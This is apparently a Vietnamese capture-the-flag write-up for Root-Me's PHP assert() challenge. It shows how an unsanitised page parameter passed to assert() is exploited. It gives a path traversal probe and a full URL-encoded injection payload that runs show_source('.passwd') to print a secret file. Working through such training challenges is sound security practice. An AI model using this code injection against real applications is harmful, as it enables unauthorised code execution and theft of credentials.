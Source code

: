 # [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

Thử fuzz với payload: `http://challenge01.root-me.org/web-serveur/ch47/?page=../`

<img src="./media/image1.png" style="width:6.5in;height:0.81111in" alt="Graphical user interface, application Description automatically generated" />

Website sử dụng `assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");` để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với **die()** và để hiển thị source bằng hàm `show_source()`: `and die(show_source('.passwd')) or '`

Lúc này payload có dạng:

`assert("strpos(' ' and die(show\_source('.passwd')) or ' ', '..') === false") or die("Detected hacking attempt!");`

**Payload:** `http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27`

<img src="./media/image2.png" style="width:6.5in;height:1.23125in" alt="Graphical user interface, text, application Description automatically generated" />

- Flag: "****************************"
